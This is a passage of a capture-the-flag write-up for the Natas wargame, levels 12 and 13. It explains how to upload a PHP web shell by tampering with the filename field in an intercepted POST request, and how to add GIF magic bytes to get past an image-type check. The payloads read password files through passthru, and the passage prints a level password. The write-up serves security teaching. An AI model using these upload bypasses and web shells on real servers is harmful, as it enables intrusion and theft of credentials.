 However, after uploading the file, the file name got changed to `<some_random_string>.jpg`, which disallows the PHP code from executing. Inspecting further, we can observe that there is a hidden `filename` (which determines the file name uploaded to the server), and it is already determined before any file is chosen. This `filename` is the path of the uploaded file on the web server.

Hence, if we can change the `filename` extension back to `.php`, we can make the PHP code valid and retrieve the flag. Opening the browser from Burp Suite, and then choose the PHP payload file and turn the Burp Suite intercept on, we can see the form data uploaded will be something like

```
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="filename"

j6s2vxhm9i.jpg
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="uploadedfile"; filename="natas12.php"
Content-Type: application/octet-stream

<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundaryEex9eRjYhKzAHvH7--
```

We change the `.jpg` filename to `natas12.php`, or any filename with the `.php` extension. Sent the changed POST request to the server, the path to the uploaded `.php` file should appear on the web page. Clicking on the link will lead to the result of executing `.php` file, which is the password of the next level.

natas13: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

# Natas 13

Same idea, but this time there is an additional check in `exif_imagetype`, which only reads the first bytes of a file to check its signature (or in other words, check the Magic Number of the file). We hence have to put the magic number of image files to the header of the PHP file. PHP file does not really complain if there is some text before the `php` code portion. 

We can pick `GIF`, it is a valid type for a image. GIF has the magic number, in ASCII of `GIF89a`. Put this before the `php` portion of the code and we should be able to bypass the check.

In particular, the file content will be like: 

```php
GIF89a
<?php
    passthru("cat /etc/natas_webpass/natas14")
?>
```

Again, turn on the Burp Suite browser and the Proxy Intercept function. Change the `filename` of the POST request form to anything ends with `.php`. An example, in the payload portion of the POST request, can be: 
